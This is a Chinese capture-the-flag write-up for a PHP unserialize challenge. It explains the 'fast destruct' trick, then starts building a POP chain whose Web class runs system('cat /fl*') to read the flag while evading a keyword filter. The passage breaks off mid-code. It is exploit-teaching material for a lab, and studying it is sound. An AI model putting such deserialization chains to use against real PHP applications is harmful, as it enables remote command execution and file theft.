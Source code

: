 ```php
Fatal error: Uncaught Exception: Nope in /var/www/html/index.php:55 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 55
```

#### 考点：

主要是`Fast destruct`

*1、PHP中，如果单独执行unserialize函数进行常规的反序列化，那么被反序列化后的整个对象的生命周期就仅限于这个函数执行的生命周期，当这个函数执行完毕，这个类就没了，在有析构函数的情况下就会执行它。*

*2、PHP中，如果用一个变量接住反序列化函数的返回值，那么被反序列化的对象其生命周期就会变长，由于它一直都存在于这个变量当中，那么在PHP脚本走完流程之后，这个对象才会被销毁，在有析构函数的情况下就会将其执行。*

[从一道题看fast_destruct](https://wh1tecell.top/2021/11/11/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E7%9C%8Bfast-destruct/)

#### 解题

首先构造pop链

```php
<?php
class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}
class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}
class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}
class Web{
    public $func = 'system';
    public $var = 'cat /fl*';
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}
class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}
class Misc{
    public function evil() {
        echo "good job but nothing";
    }
```